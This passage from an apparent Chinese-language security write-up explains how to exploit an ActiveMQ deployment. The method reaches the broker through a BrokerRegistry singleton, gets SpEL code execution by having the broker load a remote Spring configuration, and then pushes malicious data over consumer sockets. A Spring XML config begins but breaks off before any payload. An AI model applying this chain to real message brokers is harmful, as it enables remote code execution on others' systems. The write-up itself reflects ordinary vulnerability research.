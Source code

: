 在该方法中存在一个单例，可以获取到 BrokerRegistry，进而获取到 broker 实例。在 broker 实例里面简单找了找，很轻松的找到了已经建立的消费链接，\[Active Transport\]的即是。

![](assets/1701826889-fefff9289309066a973ee1ce8ca13e80.jpg)

获取到 Socket 后，直接开推恶意数据。这里通过先让 Broker 加载远程配置文件在 Broker 上实现 SPEL 代码执行后，通过代码执行获取消费者 socket 推送恶意数据，加载远程配置文件。上面也说到了消费者默认开启了 tightEncodingEnabled，所以需要使用 tightEncodingEnabled 的 Exp。经过测试，漏洞利用后不会将消费打挂。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
            http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd">

    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean class="java.lang.String">
```